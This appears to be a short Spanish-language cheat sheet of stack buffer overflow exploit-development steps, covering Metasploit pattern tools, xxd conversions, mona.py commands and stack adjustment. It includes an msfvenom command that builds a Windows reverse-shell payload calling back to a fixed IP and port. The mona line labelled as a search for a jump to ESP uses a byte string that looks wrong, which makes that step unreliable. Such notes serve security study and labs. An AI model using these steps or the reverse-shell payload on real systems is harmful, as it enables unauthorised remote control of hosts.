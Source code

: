 ## Buffer Overflow

### Generar patron

en linux

<pre>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
</pre>

### Visualizar el numero por el valor del EIP

<pre>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 316A4230
</pre>

### Comandos
#### Visualizar Hexadecimal a cadena

<pre>
echo -n "30426A31" | xxd -ps -r;echo
</pre>

#### Visualizar cadena a hexadecimal

<pre>
echo -n "0Bj1" | xxd -ps
</pre>

### MONA

Crear directorio de trabajo

<pre>
!mona config -set workingfolder C:\Users\j4munoff\Desktop\%p
</pre>

Crear bytearray

<pre>
!mona bytearray
</pre>

Ver los módulos
<pre>
!mona modules
</pre>

Ver saltos al ESP
<pre>
!mona find -s "\xff\xc4" -m Qt5Core.dll
</pre>

### msfvenom

<pre>
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c
</pre>
### Desplazamiento de pila

<pre>
sudo /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > sub esp, 0x10
00000000  83EC10            sub esp,byte +0x10
nasm > 
</pre>
